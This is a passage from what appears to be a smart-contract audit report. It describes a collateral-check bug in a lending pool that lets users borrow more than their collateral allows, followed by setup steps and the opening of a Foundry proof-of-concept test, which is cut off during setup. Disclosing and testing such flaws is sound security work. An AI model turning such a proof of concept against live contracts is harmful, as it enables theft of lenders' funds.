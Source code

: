 As you can see in above code at the highlighted mark, the multiplication `.percentMul(liquidationThreshold)` is applied to the wrong side of the statement, resulting in users being able to borrow more than they should.

## PoC

Since the PoC is a foundry test I have added a Makefile at the end of this report to simplify installation for your convenience. Otherwise if console commands would be prefered:

First run: `npm install --save-dev @nomicfoundation/hardhat-foundry`

Second add: `require("@nomicfoundation/hardhat-foundry");` on top of the `Hardhat.Config` file in the projects root directory.

Third run: `npx hardhat init-foundry`

And lastly, you will encounter one of the mock contracts throwing an error during compilation, this error can be circumvented by commenting out the code in entirety (`ReserveLibraryMocks.sol`).

And the test should be good to go:

After following above steps copy & paste the following code into `./test/invariant/PoC.t.sol` and run `forge test --mt test_PocBorrowmoreThanColleteral -vv`

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {Test, console} from "forge-std/Test.sol";
import {StabilityPool} from "../../contracts/core/pools/StabilityPool/StabilityPool.sol";
import {LendingPool} from "../../contracts/core/pools/LendingPool/LendingPool.sol";
import {CrvUSDToken} from "../../contracts/mocks/core/tokens/crvUSDToken.sol";
import {RAACHousePrices} from "../../contracts/core/oracles/RAACHousePriceOracle.sol";
import {RAACNFT} from "../../contracts/core/tokens/RAACNFT.sol";
import {RToken} from "../../contracts/core/tokens/RToken.sol";
import {DebtToken} from "../../contracts/core/tokens/DebtToken.sol";
import {DEToken} from "../../contracts/core/tokens/DEToken.sol";
import {RAACToken} from "../../contracts/core/tokens/RAACToken.sol";
import {RAACMinter} from "../../contracts/core/minters/RAACMinter/RAACMinter.sol";
contract PoC is Test {
    StabilityPool public stabilityPool;
    LendingPool public lendingPool;
    CrvUSDToken public crvusd;
    RAACHousePrices public raacHousePrices;
    RAACNFT public raacNFT;
    RToken public rToken;
    DebtToken public debtToken;
    DEToken public deToken;
    RAACToken public raacToken;
    RAACMinter public raacMinter;

    address owner;
    address oracle;
    address user1;
    address user2;
    address user3;
    uint256 constant STARTING_TIME = 1641070800;
    uint256 public currentBlockTimestamp;
    uint256 constant WAD = 1e18;
    uint256 constant RAY = 1e27;

    function setUp() public {
        vm.warp(STARTING_TIME);
        currentBlockTimestamp = block.timestamp;
        owner = address(this);
        oracle = makeAddr("oracle");
        user1 = makeAddr("user1");
        user2 = makeAddr("user2");
```
